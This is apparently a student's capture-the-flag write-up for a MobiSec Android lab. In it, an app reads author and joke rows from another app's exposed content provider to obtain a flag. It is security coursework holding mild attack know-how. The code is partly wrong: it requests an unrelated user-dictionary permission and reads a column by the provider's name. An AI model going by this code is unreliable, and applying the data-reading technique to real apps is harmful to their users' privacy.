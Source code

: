 # Solution


## Description of the problem

query contents provided by the target app 

## Solution

Firstly, in the manifest file I give content provider permissions to allow my app to retrieve data. 

```xml
<uses-permission android:name="android.permission.READ_USER_DICTIONARY" />
```



Then, I constructing the query. Some variables for accessing the User Dictionary Provider are defined, such as Uri and projection. Then use `ContentResolver.query()` to query the given Uri, returning a `Cursor` over the result. To getting data from query results, I retrieve spellings from the user dictionary and then look them up.

```java
public class MainActivity extends AppCompatActivity {

    static final String PROVIDER_NAME = "com.mobisec.provider.Joke";
    static final String URL = "content://" + PROVIDER_NAME + "/jokes";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Queries the user dictionary and returns results
        // Does a query against the table and returns a Cursor object
        Cursor cursor = getContentResolver().query(
                Uri.parse(URL),   // The content URI of the words table
                new String[]{"author", "joke"},                        // The columns to return for each row
                null,                   // Selection criteria
                null,                     // Selection criteria
                null);                        // The sort order for the returned rows

        // Some providers return null if an error occurs, others throw an exception
        if (null == cursor) {
            /*
             * Insert code here to handle the error. Be sure not to use the cursor! You may want to
             * call android.util.Log.e() to log this error.
             *
             */
            android.util.Log.i("MOBISEC","null == cursor");
        // If the Cursor is empty, the provider found no matches
        } else if (cursor.getCount() < 1) {
            /*
             * Insert code here to notify the user that the search was unsuccessful. This isn't necessarily
             * an error. You may want to offer the user the option to insert a new row, or re-type the
             * search term.
             */
            android.util.Log.i("MOBISEC","cursor.getCount() < 1");
        } else {
            // Insert code here to do something with the results
            while (cursor.moveToNext()) {
                // Gets the value from the column.
                String newWord = cursor.getString(cursor.getColumnIndex(PROVIDER_NAME));

                // Insert code here to process the retrieved word.
                Log.i("MOBISEC",newWord);

                // end of while loop
            }
        }
    }
}
```



Then I get the flag

<img src="screenshots/jokeprovider/1.PNG" alt="flag" style="zoom:100%;" />





## Optional Feedback



## reference

Content provider basics: https://developer.android.com/guide/topics/providers/content-provider-basics#Basics

Android database operation-Cursor: https://www.jianshu.com/p/b290eecbd87e
